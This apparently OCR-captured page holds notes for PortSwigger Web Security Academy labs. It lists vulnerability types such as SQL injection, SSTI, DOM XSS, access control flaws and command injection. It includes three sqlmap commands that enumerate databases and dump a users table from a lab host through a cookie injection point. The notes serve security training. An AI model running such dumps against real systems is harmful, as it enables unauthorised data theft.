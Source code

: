 ## **_Robots.txt_**
   - Unprotected admin functionality

   - Source code disclosure via backup files


## **_Vulnerable URL Parameters_**
### * SQL Injection

```
sqlmap -u 'https://LAB-ID.web-security-academy.net/filter?category=Accessories' --random-agent --time-sec 10 --cookie='TrackingId=GUBpz9hcYzRjNlGe*;session=6RxgvjoS8qWLUdHS8OogcVuMtyGZSDxP' --dbs
```
```
sqlmap -u 'https://LAB-ID.web-security-academy.net/filter?category=Accessories' --random-agent --time-sec 10 --cookie='TrackingId=GUBpz9hcYzRjNlGe*;session=6RxgvjoS8qWLUdHS8OogcVuMtyGZSDxP' -D public --tables
```
```
sqlmap -u 'https://LAB-ID.web-security-academy.net/filter?category=Accessories' --random-agent --time-sec 10 --cookie='TrackingId=GUBpz9hcYzRjNlGe*;session=6RxgvjoS8qWLUdHS8OogcVuMtyGZSDxP' -D public -T users --dump
```

   - Blind SQL injection with out-of-band interaction

   - Blind SQL injection with out-of-band data exfiltration


### * NoSQL Injection
   - Detecting NoSQL injection


### * SSTI
   - Basic server-side template injection

   - Server-side template injection in an unknown language with a documented exploit


### * DOM XSS
   - DOM XSS in jQuery anchor href attribute sink using location.search source


### * Flawed Access Control
   - User ID controlled by request parameter

   - User ID controlled by request parameter, with unpredictable user IDs

   - User ID controlled by request parameter with data leakage in redirect

   - User ID controlled by request parameter with password disclosure



## **_Submit Feedback functionality_**
### * Command Injection
   - Blind OS command injection with time delays
